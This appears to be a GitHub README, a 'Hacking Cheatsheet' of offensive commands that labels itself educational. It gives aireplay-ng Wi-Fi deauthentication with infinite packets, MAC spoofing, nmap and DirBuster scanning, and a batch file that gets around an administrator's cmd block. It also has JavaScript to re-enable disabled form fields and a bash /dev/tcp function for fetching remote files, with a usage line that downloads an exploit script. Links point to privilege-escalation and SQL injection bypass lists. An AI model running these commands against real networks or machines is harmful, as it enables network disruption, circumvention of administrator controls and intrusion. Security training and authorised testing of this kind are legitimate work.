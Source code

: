 # Hacking Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

I am actively developing a comprehensive cheat sheet, regularly adding content that encompasses intricate information, helpful techniques, and fundamental utilities, along with their practical usage, all conveniently consolidated in a single resource

## Table of Contents

- [Networking stuff](#networking-stuff)
  - [Show my wireless card name](#show-my-wireless-card-name)
  - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
  - [Show routers in range](#show-routers-in-range)
  - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
  - [Create deauth attack](#create-deauth-attack)
  - [Change MAC address](#change-mac-address)
  - [Network list with information](#network-list-with-information)
  - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
- [System compromising](#system-compromising)
  - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
  - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
- [Web Penetration Testing](#web-penetration-testing)
  - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
  - [Scanning the machine](#scanning-the-machine)
  - [Using DirBuster](#using-dirbuster)
  - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
  - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
  - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airodump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Change interface channel
```
sudo iwconfig {interface} channel {channel}
```

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

> **Script**
>
> For automation, use a script avaiable [here](./files/scripts/deauth_attack.sh).

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Network list with information 
```
nmcli device wifi list
```
- Show info about avaiable Wi-Fi networks and its security type

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV -O {IP ADDRESS}
```

- This provides information about services version, OS and which ports are in use, all in once

### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
